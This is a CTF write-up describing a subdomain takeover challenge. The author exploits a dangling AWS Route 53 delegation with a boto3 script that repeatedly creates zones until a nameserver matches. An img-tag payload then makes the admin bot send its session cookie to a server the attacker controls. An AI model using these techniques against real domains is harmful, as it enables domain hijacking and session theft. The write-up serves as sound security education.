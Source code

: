 ```yaml
---
layout: post
title: Punk Security DevSecOps Birthday CTF Subdomain Takeover (Hard) Challenge Writeup
tags: [ctf, ctf writeup]
---
```


[Punk Security DevSecOps Birthday CTF](https://punksecurity.co.uk/ctf/2023/)  
[On CTFtime](https://ctftime.org/event/1903)

We did the 12-hour CTF on 4th May 2023. The CTF is unique and primarily focused on DevSecOps, including CI/CD pipelines, cloud etc. It is not in my best expertises, but we had a strong team and managed to full clear all the challenges and won the CTF.

We were one of the only teams solved this subdomain takeover challenge. This solve involves exploiting a dangling delegation DNS record on AWS Route 53 to takeover a subdomain, thus bypass some CSP restrictions.

## The Challenge and Solve

*The notes and screenshots were taken when different challenge instances were running, so several different challenge domains may be in the writeup below.*

### Finding the Dangling Delegation

In the challenge description, it suggested to do a scan of possible subdomain takeover with [dnsReaper](https://github.com/punk-security/dnsReaper) tool made and open sourced by Punk Security.

After the scan, we found a dangling delegation DNS record for zone `dev.[challenge domain]`, as shown in the screenshot below.

![dnsReaper scan result](/assets/image/punk-security-devsecops-birthday-ctf-subdomain-takeover-hard-writeup/dnsReaper.png)

I then created hosted zone on AWS Route 53 for `dev.[challenge domain]` and AWS will randomly assign 4 nameservers for the hosted zone. I used the following script to repeatedly create hosted zone and check the nameservers until I got at least one of the nameservers that the zone is delegated to.

```python
import boto3
import uuid
client = boto3.client('route53')
target_nameservers = 'ns-423.awsdns-52.com,ns-904.awsdns-49.net,ns-1899.awsdns-45.co.uk,ns-1125.awsdns-12.org'
target_nameservers = set(target_nameservers.split(','))
count = 0
while True:
    count += 1
    print(count, end='\r')
    zone = client.create_hosted_zone(
        Name='dev.d9edd91f-c40.ctf.two.dr.punksecurity.cloud',
        CallerReference=str(uuid.uuid4()),
        HostedZoneConfig={
            'PrivateZone': False
        }
    )
    id = zone['HostedZone']['Id']
    nameservers = set(zone['DelegationSet']['NameServers'])
    # print(nameservers, target_nameservers)
    if len(nameservers & target_nameservers) > 0:
        break
    client.delete_hosted_zone(Id=id)
```

It took only just over 100 attempts to get a nameserver that the zone is delegated to.

### Finding Loopholes on the Web

The web app to be exploited uses CSP to restrict the loading of external scripts. It only allows the script from the same origin. However, the session cookie is set to the domain scope of `.[challenge domain]`, that means when making requests to any subdomains or even sub-subdomains etc, the session cookie will be included.

![Session Cookie](/assets/image/punk-security-devsecops-birthday-ctf-subdomain-takeover-hard-writeup/cookie.png)

The CSP on the web app also allows images from any origin, so we can load images from the subdomain we took over.

With the `dev.[challenge domain]` zone we took over with our own AWS account, we can create a subdomain `takeover.dev.[challenge domain]` and point it to a web server we control.

![Pointing the subdomain to our server on AWS Route 53](/assets/image/punk-security-devsecops-birthday-ctf-subdomain-takeover-hard-writeup/route53.png)

Thus, we I post a comment with the following content, the admin bot will make request to our server with the session cookie.

```html
<img src="http://takeover.dev.[challenge domain]">
```

![The admin bot made request to our server with session cookie](/assets/image/punk-security-devsecops-birthday-ctf-subdomain-takeover-hard-writeup/listen.png)

With the session cookie of the admin bot, we can now make request to the web app with the session cookie and get the flag.

## Notes and Findings during the CTF

In the `results.csv` outputted by dnsReaper, I noticed the link to a [GitHub Issue](https://github.com/punk-security/dnsReaper/issues/122) discussing about some protections on AWS Route 53 against domain takeover because of dangling delegation. In that discussion, there is a link to a [video demo](https://youtu.be/GGfQlPZSRk4?t=712) of the subdomain take over on AWS Route 53 at BSides Newcastle by [SimonGurney](https://github.com/SimonGurney) whom is the author of dnsReaper. Despite not the best recording audio quality, the demo was very helpful to understand this exploit.

Regarding [the protection from dangling delegation records in Route 53](https://docs.aws.amazon.com/Route53/latest/DeveloperGuide/protection-from-dangling-dns.html), when the subdomain hosted zone is removed, the delegation will need to be removed and recreated to delegate the subdomain to a hosted zone. However, if a hosted zone is never created before the delegation, meaning the domain has always been dangling, the protection will not automatically protect against subdomain takeover.
